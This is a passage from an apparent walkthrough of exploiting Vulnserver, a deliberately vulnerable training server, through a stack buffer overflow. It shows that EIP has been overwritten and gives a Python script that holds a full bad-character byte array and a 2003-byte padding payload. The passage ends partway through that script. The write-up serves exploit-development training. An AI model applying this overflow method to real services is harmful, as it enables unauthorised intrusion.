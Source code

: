 
By running this our application gets crashed

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/overwrite-eip-reg.png">
</div>

We can see that, our EIP has a data of ```0x42424242``` which is the hex value of ```BBBB``` from our script

So, we can control the EIP now

## Finding Bad Characters

After controlling EIP, it is mandatory to check for bad characters

Because bad characters may damage your shellcode execution which may result in ```exploitation failure```

To find bad characters manually using debugger, run this python script

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver]
└─$ cat bad_chars.py                
import socket, sys
from time import sleep
# collection of all bad characters except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
# to overwrite buffer and EBP
payload=b"A"*2003
# to overwrite EIP
```